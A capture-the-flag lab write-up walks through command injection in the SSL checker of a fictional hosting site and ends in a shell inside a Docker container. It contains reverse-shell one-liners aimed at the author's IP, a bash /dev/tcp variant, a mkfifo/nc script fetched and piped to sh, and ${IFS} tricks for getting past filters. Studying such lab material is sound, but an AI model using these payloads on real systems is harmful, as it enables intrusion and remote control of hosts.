Logging into website we are presented with a reminiscence of a Hosting company:


We can see that website is using @gigantichosting.com as Domain name for their email contacts but checking on SSL certificate we can se that CN is pointing to the IP and not the FQDN:



Moving forward and checking what website have to offer we can see that menu is pointing to a php file for checking of ssl certificates:



Let's keep that in mind for now, and move on.

Next I decided to try to enumerate for hidden webdirectories:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "https://gigantichosting.htb/"                                                                                                                                                                                                                                                                             

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                                                                                      
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/https_gigantichosting.htb/__23-07-17_14-27-05.txt

Target: https://gigantichosting.htb/

[14:27:05] Starting:                                                                                                                                                                                                                                                                                                        
[14:27:08] 403 -  285B  - /.ht_wsr.txt                                      
[14:27:08] 403 -  285B  - /.htaccess.bak1                                   
[14:27:08] 403 -  285B  - /.htaccess.orig                                   
[14:27:08] 403 -  285B  - /.htaccess.save
[14:27:08] 403 -  285B  - /.htaccess.sample
[14:27:08] 403 -  285B  - /.htaccess_extra                                  
[14:27:08] 403 -  285B  - /.htaccessBAK                                     
[14:27:08] 403 -  285B  - /.htaccess_orig
[14:27:08] 403 -  285B  - /.htaccess_sc
[14:27:08] 403 -  285B  - /.htaccessOLD
[14:27:08] 403 -  285B  - /.htaccessOLD2
[14:27:08] 403 -  285B  - /.htm                                             
[14:27:08] 403 -  285B  - /.html
[14:27:08] 403 -  285B  - /.htpasswds                                       
[14:27:08] 403 -  285B  - /.htpasswd_test
[14:27:08] 403 -  285B  - /.httr-oauth
[14:27:08] 301 -  325B  - /js  ->  https://gigantichosting.htb/js/          
[14:27:09] 403 -  285B  - /.php                                             
[14:27:11] 200 -    1KB - /404.html                                         
[14:27:12] 200 -    2KB - /about.html                                       
[14:27:21] 200 -    2KB - /clients.html                                     
[14:27:23] 301 -  326B  - /css  ->  https://gigantichosting.htb/css/        
[14:27:26] 301 -  328B  - /fonts  ->  https://gigantichosting.htb/fonts/    
[14:27:27] 301 -  329B  - /images  ->  https://gigantichosting.htb/images/  
[14:27:27] 403 -  285B  - /images/                                          
[14:27:29] 403 -  285B  - /js/                                              
[14:27:38] 403 -  285B  - /server-status/                                   
[14:27:38] 403 -  285B  - /server-status
[14:27:40] 200 -    2KB - /support.html                                     
                                                                             
Task Completed                                                                                                                                                                                                                                                                                                              

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "https://gigantichosting.htb/js"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                                                                                      
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/https_gigantichosting.htb/_js_23-07-17_14-28-33.txt

Target: https://gigantichosting.htb/

[14:28:33] Starting: js/                                                                                                                                                                                                                                                                                                    
                                                                             
Task Completed                                                                                                                                                                                                                                                                                                              

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "https://gigantichosting.htb/ssltools"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                                                                                      
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/https_gigantichosting.htb/_ssltools_23-07-17_14-30-14.txt

Target: https://gigantichosting.htb/

[14:30:14] Starting: ssltools/                                                                                                                                                                                                                                                                                              
                                                                             
Task Completed                                                                                                                                                                                                                                                                                                              

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─#
```

Ok not that much surprising, so I decided to try to use another tool called FFUF and check for other php files under /ssltools/:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/wordlists/dirb/big.txt -u "https://gigantichosting.htb/ssltools/FUZZ.php"                                                                                                                                                                                                                            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://gigantichosting.htb/ssltools/FUZZ.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 32ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 34ms]
    * FUZZ: .htaccess

[Status: 200, Size: 1066, Words: 114, Lines: 78, Duration: 642ms]
    * FUZZ: certificate

:: Progress: [20469/20469] :: Job [1/1] :: 450 req/sec :: Duration: [0:01:20] :: Errors: 0 ::
```

Next let's try to check if there are any other VHOSTS on the server, but I guess it won't help that much since we don't have the exact FQDN used by website:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "https://gigantichosting.htb/" -H "Host:FUZZ.gigantichosting.htb" -fl 344

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://gigantichosting.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.gigantichosting.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 344
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 194 req/sec :: Duration: [0:01:45] :: Errors: 0 ::
```

Ok, as guessed nothing came out I will start by trying to fuzz around what we found.

* * *

## Attacking the Certficate Checker

As we checked before seems like the only interesting foothold so far is the ssl certificate checker under: https://gigantichosting.htb/ssltools/certificate.php

Trying to play around I decided to run Burpsuite and fetch the request send back and forth via Browser:



As we can see we give a FQDN or IP and website will check for SSL certificate, which tells me 2 possible attack scenarions; trying to check if Responder can get the request back, or some kind of Command injection!

Let's try to spinup a NC listening on our IP and check what can we get as request:

```BAsh
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.13.38.16] 56990
��[Э�Q)*xr���rמՈz����`)MI+? G]^�rs�]���!�I����+d��_��u��Ի>�,�0��+�/��$�(k�#�'g�
�9�     �3��=<5/�u


▒3t
0. hhttp/1.1
 
+      -3&$ �b�/��U!�p<�y��3~�#��H�["|BS�
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 80 
listening on [any] 80 ...
^C

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# php -S 0.0.0.0:80
[Mon Jul 17 14:46:29 2023] PHP 8.2.7 Development Server (http://0.0.0.0:80) started
[Mon Jul 17 14:46:56 2023] 10.13.38.16:57008 Accepted
[Mon Jul 17 14:46:56 2023] 10.13.38.16:57008 Invalid request (Unsupported SSL request)
[Mon Jul 17 14:46:56 2023] 10.13.38.16:57008 Closing
^C
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# php -S 0.0.0.0:443
[Mon Jul 17 14:47:17 2023] PHP 8.2.7 Development Server (http://0.0.0.0:443) started
[Mon Jul 17 14:47:21 2023] 10.13.38.16:57010 Accepted
[Mon Jul 17 14:47:21 2023] 10.13.38.16:57010 Invalid request (Unsupported SSL request)
[Mon Jul 17 14:47:21 2023] 10.13.38.16:57010 Closing
```

Ok seems like the website is checking for SSL on port 443 aka HTTPS which reason gave us a "jibbeirsh" response back!

On website we can get a similar result:



Now what it remains is to try some parameters fuzzing and see if we can get a Command execution on the machine(it's a windows so we may want to adjust what we send, and it have to be URL encoded!).

Here I checked for some tips and apparently there is a MITM tool just done for HTTPS: https://mitmproxy.org/

And setting in up in reverse mode to catch and send back the request:

```Bash
C:\Users\AleksandarMilosavlje> mitmdump.exe -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure -vvv
[11:31:53.325] reverse proxy to https://10.13.38.16 listening at *:443.
[11:32:06.995][10.13.38.16:57825] client connect
[11:32:07.034][10.13.38.16:57825] server connect 10.13.38.16:443
10.13.38.16:57825: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 18 Jul 2023 09:32:07 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[11:32:07.717][10.13.38.16:57825] client disconnect
[11:32:07.717][10.13.38.16:57825] closing transports...
[11:32:07.717][10.13.38.16:57825] server disconnect 10.13.38.16:443
[11:32:07.717][10.13.38.16:57825] transports closed!
```

I had to use my Windows cause it was not working as expected on Kali! Anyway we can see that User agent is curl, which means we should be able to get a response back this time.

Now trying to send: 10.10.14.6;whoami didn't worked out which can mean that ; is blacklisted:



Next I will use all the standards conjunction operators and see which one actually works to output my command and then I will build up the payload string:



And so far all the AND and OR, semicolon, new line carrier, subshell(apostrophes) didn't worked out except the last one in fomat $(command):

```Bash
C:\Users\AleksandarMilosavlje> mitmdump.exe -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure -vvv
[12:20:02.685] reverse proxy to https://10.13.38.16 listening at *:443.
[12:20:07.402][10.13.38.16:58033] client connect
[12:20:07.449][10.13.38.16:58033] server connect 10.13.38.16:443
10.13.38.16:58033: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 18 Jul 2023 10:20:08 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[12:20:07.937][10.13.38.16:58033] client disconnect
[12:20:07.937][10.13.38.16:58033] closing transports...
[12:20:07.937][10.13.38.16:58033] server disconnect 10.13.38.16:443
[12:20:07.937][10.13.38.16:58033] transports closed!
[12:20:31.934][10.13.38.16:58041] client connect
[12:20:31.966][10.13.38.16:58041] server connect 10.13.38.16:443
10.13.38.16:58041: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 18 Jul 2023 10:20:32 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[12:20:32.201][10.13.38.16:58041] client disconnect
[12:20:32.201][10.13.38.16:58041] closing transports...
[12:20:32.217][10.13.38.16:58041] server disconnect 10.13.38.16:443
[12:20:32.217][10.13.38.16:58041] transports closed!
[12:20:48.999][10.13.38.16:58049] client connect
[12:20:49.031][10.13.38.16:58049] server connect 10.13.38.16:443
10.13.38.16:58049: GET https://10.13.38.16/nwhoami
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 404 Not Found 274b
    Date: Tue, 18 Jul 2023 10:20:49 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Content-Length: 274
    Content-Type: text/html; charset=iso-8859-1
[12:20:49.282][10.13.38.16:58049] client disconnect
[12:20:49.282][10.13.38.16:58049] closing transports...
[12:20:49.282][10.13.38.16:58049] server disconnect 10.13.38.16:443
[12:20:49.282][10.13.38.16:58049] transports closed!
[12:21:18.992][10.13.38.16:58054] client connect
[12:21:19.039][10.13.38.16:58054] server connect 10.13.38.16:443
10.13.38.16:58054: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 18 Jul 2023 10:21:19 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[12:21:19.290][10.13.38.16:58054] client disconnect
[12:21:19.290][10.13.38.16:58054] closing transports...
[12:21:19.290][10.13.38.16:58054] server disconnect 10.13.38.16:443
[12:21:19.290][10.13.38.16:58054] transports closed!
[12:21:54.528][10.13.38.16:58057] client connect
[12:21:54.578][10.13.38.16:58057] server connect 10.13.38.16:443
10.13.38.16:58057: GET https://10.13.38.16/
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 200 OK 14.3k
    Date: Tue, 18 Jul 2023 10:21:54 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Last-Modified: Thu, 05 Sep 2019 15:58:47 GMT
    ETag: "3960-591d0659f7d83"
    Accept-Ranges: bytes
    Content-Length: 14688
    Vary: Accept-Encoding
    Content-Type: text/html
[12:21:54.811][10.13.38.16:58057] client disconnect
[12:21:54.811][10.13.38.16:58057] closing transports...
[12:21:54.811][10.13.38.16:58057] server disconnect 10.13.38.16:443
[12:21:54.811][10.13.38.16:58057] transports closed!
[12:22:09.471][10.13.38.16:58065] client connect
[12:22:09.513][10.13.38.16:58065] server connect 10.13.38.16:443
10.13.38.16:58065: GET https://10.13.38.16/whoami
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 404 Not Found 274b
    Date: Tue, 18 Jul 2023 10:22:10 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Content-Length: 274
    Content-Type: text/html; charset=iso-8859-1
[12:22:10.099][10.13.38.16:58065] client disconnect
[12:22:10.099][10.13.38.16:58065] closing transports...
[12:22:10.099][10.13.38.16:58065] server disconnect 10.13.38.16:443
[12:22:10.099][10.13.38.16:58065] transports closed!
[12:22:40.574][10.13.38.16:58068] client connect
[12:22:40.605][10.13.38.16:58068] server connect 10.13.38.16:443
10.13.38.16:58068: GET https://10.13.38.16/www-data
    Host: 10.13.38.16
    User-Agent: curl/7.58.0
    Accept: */*
 << 404 Not Found 274b
    Date: Tue, 18 Jul 2023 10:22:41 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Content-Length: 274
    Content-Type: text/html; charset=iso-8859-1
[12:22:40.841][10.13.38.16:58068] client disconnect
[12:22:40.841][10.13.38.16:58068] closing transports...
[12:22:40.857][10.13.38.16:58068] server disconnect 10.13.38.16:443
[12:22:40.857][10.13.38.16:58068] transports closed!
```

Now that we have the base payload and we know the user is www-data this mean that the Apache2 host is running on a Linux machine and knowing that the HADES-WEB should be a Windows I guess first foothold will be in a Docker environment.

* * *

## Revshell on Docker Environment

Now I want to get a RCE on the machine and doing so I setup a NC listener on my machine:



Then I have to find a suitable Revshell for Linux that can get me a RCE, nevertheless guessing that there would be a some blacklisting for SPACES(we can use ${IFS} to bypass that). But starting with taking care only for spaces and then eventually even for / slashes and lastly on commands as well:

`/bin/bash${IFS}-i${IFS}>&${IFS}/dev/tcp/10.10.14.6/5555${IFS}0>&1`

But the command is not working so I decide to put some  apostrophes to bypass eventual blacklist on singular commands like Bash:

`10.10.14.6/$('b'a's'h${IFS}-i${IFS}>&${IFS}/dev/tcp/10.10.14.6/5555${IFS}0>&1)`

But all the combinations didn't worked out so I decided to create a Revshell into a shell.sh and host it via HTTP server:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/HADES]
└─# curl http://10.10.14.6/shell.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.6 5555 >/tmp/f
```

Which means if we would do something like $(curl IP/shell.sh|sh)  should read the content of the shell and then pipe it(execute in memory without saving any shell on the host!).

First let's see if we can execute the curl:





No, this mean that space is probably blacklisted and removed but we can use ${IFS} to bypass that:





This time indeed it worked out, and now let's try to Pipe that thru Bash:



Partially, the Shell gets downloaded but nothing in our NC listener, I guess we have to use another payload then:


And we got a RCE:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.6] from (UNKNOWN) [10.13.38.16] 58414
www-data@cee1146c7ac1:/var/www/html/ssltools$
```

And like so we can grab our first flag:



* * *

## Poking the "Outside":

First thing first seems like our shell session get's deleted after a while which means we have to use a elf shell so we can catch it via Metasploit:



But before that I want to check what have we actually logged into:

```BAsh
www-data@cee1146c7ac1:/var/www/html/ssltools$ hostname
hostname
cee1146c7ac1
www-data@cee1146c7ac1:/var/www/html/ssltools$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
www-data@cee1146c7ac1:/var/www/html/ssltools$
```

And from there we assumed right that we are into a Docker environment, we know that all the machines should be in a /24 network so I guess we have to find a way to escape this docker first.

Now I tried to upload a Revshell as elf and call it from our first RCE but it's not starting , so I called a normal revshell to get a stable connection.

